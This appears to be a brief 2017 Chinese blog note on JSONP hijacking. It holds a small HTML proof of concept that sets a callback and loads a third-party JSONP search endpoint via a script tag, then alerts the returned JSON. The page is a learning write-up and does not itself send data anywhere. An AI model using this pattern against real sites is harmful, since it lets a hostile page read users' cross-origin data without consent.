 ```yaml
---
id: 138
title: jsonp劫持 ~~~~
date: 2017-08-28T15:30:11+00:00
author: bfpiaoran
layout: post
guid: http://www.cuijianxiong.top/?p=138
permalink: /?p=138
categories:
  - 未分类
---
```

javascript渣  搞了n就才明白

要回调是json格式 ~~

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
&lt;title&gt;jsonp&lt;/title&gt;
&lt;head&gt;
&lt;/head&gt;
&lt;script&gt;

function searchJsonCallback(json){
	alert(JSON.stringify(json))

}
&lt;/script&gt;
&lt;script src="http://cgi.music.soso.com/fcgi-bin/fcg_search_xmldata.q?source=10&w=test"&gt;&lt;/script&gt;
&lt;/html&gt;</code></pre>

&nbsp;